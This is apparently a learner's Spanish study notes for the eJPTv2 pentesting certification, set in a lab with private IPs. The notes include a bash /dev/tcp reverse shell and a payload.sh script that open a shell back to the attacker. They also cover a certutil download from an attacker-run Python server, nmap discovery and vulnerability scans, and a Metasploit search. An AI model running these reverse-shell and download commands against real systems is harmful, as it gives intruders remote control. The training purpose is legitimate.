

# eJPTv2

---

## Curso de la Academia: El Rincón del Hacker

---

En este Repositorio, apuntare todo lo que vaya aprendiendo de esta certificación. 

---------------------------------------------------------------------------------------------

Principalmente Mario nos pasa una máquina W7 para instalar en VirtualBox y nos explica como bajar una máquina Kali Linux para VirtualBox y cambiarle el idioma al teclado.

---

## Comandos para actualizar Kali Linux.

---

```bash
apt update
```

```bash
apt upgrade -y
```

```bash
apt autoremove
```
 <!-- Sirve para poder eliminar las dependencias huerfanas -->

```bash
apt dist-upgrade
```
 <!-- Se utiliza para actualizar todos los paquetes instalados a sus versiones más recientes -->

```bash
reboot
```
---

## Explicación sobre adaptador puente, NAT y Red NAT

---

Adaptador puente > las máquinas virtuales van a tener un comportamiento como si fuera un equipo más de mi red .

NAT > Network Address Translation. Es una técnica que permite que varias máquinas virtuales utilicen una sola dirección IP pública para acceder a Internet, compartiendo la conexión de red de la máquina anfitriona. Con NAT, las VMs pueden navegar por Internet, pero no son accesibles directamente desde la red externa, lo que proporciona aislamiento y seguridad adicional en entornos de laboratorio. 

Red NAT o Red Interna > Es una red que solo se ve en VirtualBox

---
 
## Netcad para entablar Reverse Shell

---

Máquina atacante entramos en esta web: https://www.revshells.com/ rellenamos la ip de nuestra máquina atacante (10.0.10.51) y ponemos el puerto, en este caso usamos el 443 y la web nos devuelve un comando para ejecutar en la máquina víctima, el comando ha sido este: 

[`sh -i >& /dev/tcp/10.0.10.51/443 0>&1`](https://www.revshells.com/) es un comando que se utiliza para obtener una reverse shell desde la máquina víctima hacia la máquina atacante.

- `sh -i`: Inicia una shell interactiva.
- `>& /dev/tcp/10.0.10.51/443`: Redirige la entrada y salida estándar de la shell a una conexión TCP hacia la IP 10.0.10.51 en el puerto 443 (la máquina atacante).
- `0>&1`: Redirige la entrada estándar para que también vaya por la conexión TCP.

Esto permite que la máquina atacante controle la shell de la víctima a través de la red, siempre que en la máquina atacante esté escuchando Netcat en ese puerto.

antes de ejecutar el comando en la máquina víctima hay que lanzar en la máquina atacante por la terminal el comando:

`nc -nlvp 443` es un comando de Netcat (nc), una herramienta utilizada para leer y escribir datos a través de conexiones de red.  
- `-n`: No resuelve nombres de host (usa direcciones IP directas).
- `-l`: Escucha en modo servidor, esperando conexiones entrantes.
- `-v`: Modo verbose, muestra información detallada.
- `-p 443`: Especifica el puerto local (en este caso, el 443) donde escuchará.

Este comando abre un puerto 443 en la máquina atacante y espera conexiones entrantes, útil para recibir una reverse shell desde la máquina víctima.

Ejecutamos el comando en la máquina víctima (10.0.10.39) y esta establecerá una conexión hacia la máquina atacante. Desde la máquina atacante, al recibir la reverse shell, tendremos acceso remoto a la terminal de la víctima, lo que nos permitirá ejecutar comandos, lanzar scripts y realizar acciones de post-explotación.

---

## Compartir archivos desde mi red interna con un Servidor HTTP con Python + Reverse Shell

---

<!-- Estos comandos se suelen usar en máquinas Linux -->

Nos movemos al directorio que queramos, por ejemplo:

```bash (Kali Linux)
cd /home/kali/Desktop
```

Creamos el script `payload.sh`:

```bash (Kali Linux)
nano payload.sh
```

Dentro del archivo `payload.sh` pegamos lo siguiente:

```bash (Kali Linux)
#!/bin/bash
bash -i >& /dev/tcp/10.0.10.51/443 0>&1
```

Guardamos y cerramos el archivo. Ahora, damos permisos de ejecución (opcional pero recomendable, **este apartado Mario no lo explica, pero Copilot dice que es recomendable**):

```bash (Kali Linux)
chmod +x payload.sh
```

Ponemos Netcat a la escucha en la máquina atacante:

```bash (Kali Linux)
sudo nc -nlvp 443
```

y desde la máquina atacante ejecutamos el siguiente comando:

El comando `curl http://10.0.10.51/443` esto intenta realizar una petición HTTP al puerto 443 de la dirección IP 10.0.10.51 y mostrar el contenido que recibe como respuesta. Sin embargo, normalmente el puerto 443 se usa para HTTPS, no para HTTP, por lo que si no hay un servidor web escuchando en ese puerto o no está configurado correctamente, el comando no funcionará o mostrará un error.

En el contexto de una reverse shell, este comando no ejecuta ninguna shell ni conecta con Netcat; solo descarga y muestra el contenido disponible en esa (por eso anteriormente hemos ejecutado sudo nc -nlvp 443)

---

## Compartir archivos desde mi red interna con un Servidor HTTP con Python en máquinas Windows

---

<!-- Estos comandos se suelen usar en máquinas Windows cuando no funciona curl ni winget -->

Creamos el archivo que queremos compartir, en este caso lo llamaremos `compartir.mp4`. Para ello, desde la máquina atacante ejecutamos:

```bash (Kali Linux)
nano compartir.mp4
```

Después, iniciamos un servidor web con Python en el mismo directorio donde está el archivo:

```bash (Kali Linux)
python3 -m http.server 80
```

Ahora, desde la máquina Windows (víctima), descargamos el archivo utilizando el siguiente comando:

```cmd (Windows 7)
certutil -split -urlcache -f http://10.0.10.51/compartir.mp4 compartir.mp4
```

Donde:
- La primera parte es la URL desde donde se descargará el archivo (la IP de la máquina atacante y el nombre del archivo).
- La segunda parte es el nombre con el que se guardará el archivo en la máquina Windows.

**Sintaxis general:**

```cmd
certutil -split -urlcache -f [URL_del_archivo] [nombre_destino]
```

Este método es útil para transferir archivos entre máquinas en una red interna, especialmente cuando no se dispone de herramientas como `curl` o `wget` en Windows.

---

## Reconocimiento de la red con ARP-SCAN, NETDISCOVER y NMAP

---

En el examen, no se nos proporcionará una lista de los equipos disponibles. Por ello, es fundamental saber cómo realizar un escaneo de la red para identificar los dispositivos presentes. Para esto, es recomendable tener preparados varios métodos (plan A, plan B y plan C) que nos permitan descubrir todos los equipos conectados.

Antes de comenzar con las herramientas de reconocimiento, es importante saber que el valor del TTL (Time To Live) en la respuesta de un ping puede darnos una pista sobre el sistema operativo del equipo remoto:

- **TTL = 128** → Normalmente indica que es una máquina **Windows**.
- **TTL = 64** → Normalmente indica que es una máquina **Linux**.

Este pequeño truco puede ayudarte a identificar rápidamente el tipo de sistema operativo al que estás


**NOTA:**

El valor del TTL (Time To Live) en la respuesta de un ping puede darnos una pista sobre el sistema operativo del equipo remoto. Los valores más habituales de TTL inicial son:

| Sistema/Dispositivo      | TTL inicial |
|-------------------------|-------------|
| Linux/Unix/macOS        | 64          |
| Windows                 | 128         |
| Cisco/FreeBSD/Redes     | 255         |
| Algunos sistemas antiguos| 32         |

Recuerda que el TTL disminuye en cada salto de red, ya que cada router por el que pasa el paquete reduce el TTL en 1. Por eso, el valor que recibes en la respuesta puede ser menor al original y solo da una pista aproximada del sistema operativo.

**ARP-SCAN**

Nos indica que, utilizando el siguiente comando de **arp-scan**, podemos identificar todos los dispositivos conectados a nuestra red local:

```bash
arp-scan -I eth0 --localnet
```

- `-I eth0`: Especifica la interfaz de red a utilizar (en este caso, `eth0`).
- `--localnet`: Indica que el escaneo se realizará sobre toda la red local.

Este comando es muy útil para obtener una lista rápida de los dispositivos activos en tu red, mostrando sus direcciones IP y MAC.

**NETDISCOVER**

También nos enseña la herramienta **netdiscover**, que permite detectar los equipos conectados a nuestra red. Podemos utilizar el siguiente comando:

```bash
netdiscover -i eth0 -r 10.0.10.0/24
```

- `-i eth0`: Especifica la interfaz de red a utilizar (en este caso, `eth0`).
- `-r 10.0.10.0/24`: Indica el rango de red a escanear (ajusta este valor según tu red).

**Nota:** Es importante establecer correctamente el rango de red. Por ejemplo, en mi caso es `10.0.10.0/24`.

**NMAP**

También nos enseña la herramienta **nmap**, que permite detectar los equipos conectados a nuestra red. Podemos utilizar el siguiente comando:

```bash
nmap -sn 10.0.10.0/24 -oN ips_disponibles.txt
```

- `-sn`: Realiza un escaneo de ping para identificar los hosts activos sin hacer un escaneo de puertos.
- `10.0.10.0/24`: Especifica el rango de red a analizar (ajústalo según tu red).
- `-oN ips_disponibles.txt`: Guarda el resultado del escaneo en el archivo `ips_disponibles.txt`.

Este comando es muy útil para obtener un listado de los dispositivos activos en tu red y guardar los resultados para su posterior análisis.

---

## Escaneos básicos con NMAP

---
El siguiente comando nos proporciona información básica sobre los puertos abiertos y servicios detectados en un host:

```bash
nmap 10.0.10.50
```

O, de forma general:

```bash
nmap [Host]
```

Esto realizará un escaneo estándar de los 1.000 puertos más comunes en la dirección IP o nombre de host que indiques.

Un comando más completo para realizar un escaneo profundo sería el siguiente:

```bash
nmap -p- --open -sS -sC -sV --min-rate 2000 -n -vvv -Pn 10.0.10.50 -oN Escaneo.txt
```

- `-p-`: Escanea todos los puertos (del 1 al 65535).
- `--open`: Muestra solo los puertos abiertos.
- `-sS`: Realiza un escaneo SYN (stealth scan).
- `-sC`: Ejecuta los scripts básicos de Nmap.
- `-sV`: Detecta versiones de los servicios.
- `--min-rate 2000`: Aumenta la velocidad del escaneo (ajusta según tu red).
- `-n`: No resuelve nombres de host.
- `-vvv`: Muestra información muy detallada (modo muy verbose).
- `-Pn`: No realiza ping previo (asume que el host está activo).
- `-oN Escaneo.txt`: Guarda el resultado en el archivo `Escaneo.txt`.

Este comando te permitirá obtener un análisis completo de los puertos y servicios disponibles en el host  objetivo.

**NOTA:**  
En el examen se recomienda establecer un valor de `--min-rate` de 1500 o 2000 para asegurar un escaneo fiable, aunque esto puede hacer que el proceso sea más lento. Si necesitas que el escaneo sea más rápido, puedes aumentar el valor a 5000, pero ten en cuenta que podrías perder algunos resultados si la red o el equipo no soportan esa velocidad.

---

## Detectar Vulnerabilidades con NMAP

---


El siguiente comando permite buscar vulnerabilidades conocidas en los servicios expuestos de un host utilizando los scripts de Nmap:

```bash
nmap --script "vuln" -p445 10.0.10.50
```

- `--script "vuln"`: Ejecuta los scripts de la categoría "vuln" para detectar vulnerabilidades comunes.
- `-p445`: Especifica el puerto a analizar (en este caso, el 445, típico de SMB en Windows).
- `10.0.10.50`: Dirección IP del objetivo.

Este comando es útil para identificar rápidamente posibles vulnerabilidades en servicios específicos del host analizado.

En este caso, Nmap detectó la vulnerabilidad **CVE-2017-0143**. Para obtener más información sobre esta vulnerabilidad (recordando que en el examen no tendrás acceso a Internet), puedes utilizar la herramienta **msfconsole** de Metasploit.

Para ello, ejecuta en la terminal:

```bash
msfconsole
```

Esta herramienta te permite automatizar muchos tipos de ataques y pruebas de explotación.

Una vez abierta la consola de Metasploit, puedes buscar información sobre la vulnerabilidad ejecutando:

```bash
search CVE-2017-0143
```
---

## Escaneo de Puertos bajo el Protocolo UDP

---

En este caso Mario nos explica que tenemos que acceder a la web de https://vulnyx.com/ y descargar la máquina vulnerable llamada **Vulnix**. 
Con esta máquina podemos atacar a los puertos UDP que se corresponden en este tema.

Primeramente abrimos el Kali linux y ejecutamos el comando:

```bash
arp-scan -I eth0 --localnet
```

Esto nos permitirá identificar la dirección IP de la máquina Vulnix. Una vez que tengamos la IP, podemos proceder a escanear los puertos UDP utilizando Nmap.

En nuestro caso como es una máquina de VirtualBox y la MAC suele comenzar por 08:00:27.

Si son TCP usaremos el siguiente comando:

```bash
nmap -p- -sS -sC -sV --open --min-rate=5000 -n -Pn -vvv 192.168.1.197 -oN Escaneo.txt
```	
- `-p-`: Escanea todos los puertos (del 1 al 65535).
- `-sS`: Realiza un escaneo SYN (stealth scan).	
- `-sC`: Ejecuta los scripts básicos de Nmap.
- `-sV`: Detecta versiones de los servicios.
- `--open`: Muestra solo los puertos abiertos.
- `--min-rate=5000`: Aumenta la velocidad del escaneo (ajusta según tu red).
- `-n`: No resuelve nombres de host.
- `-Pn`: No realiza ping previo (asume que el host está activo).	
- `-vvv`: Muestra información muy detallada (modo muy verbose).
- `-oN Escaneo.txt`: Guarda el resultado en el archivo `Escaneo.txt
```

Si son UDP usaremos el siguiente comando:

```bash
nmap -sU --top-ports 200 --min-rate=5000 -Pn 192.168.1.197
```

## Resultado del escaneo con Nmap


Como podemos observar en la imagen, Nmap ha detectado el puerto UDP abiertos en la máquina Vulnix. Estos puertos son: 161/udp (SNMP).

El protocolo snmp sive para monitorizar y gestionar dispositivos en una red, como routers, switches, servidores y otros dispositivos de red. Permite la recolección de información sobre el estado y el rendimiento de estos dispositivos, así como la configuración y control remoto de los mismos.
Para obtener más información sobre el puerto 161/udp, podemos utilizar el siguiente comando:

```bash
nmap -sU -p 161 --script snmp-info [Dirección IP del host]
```
- `-sU`: Realiza un escaneo de puertos UDP.
- `-p 161`: Especifica el puerto a analizar (en este caso, el 161, típico de SNMP).
- `--script snmp-info`: Ejecuta el script de Nmap para obtener información sobre SNMP.
## Resultado del escaneo con Nmap


Este comando nos proporcionará información detallada sobre el servicio SNMP en el puerto 161, incluyendo la versión del protocolo y otros detalles relevantes.

---
## Explotación de Vulnerabilidades y Ataques de Fuerza Bruta

---

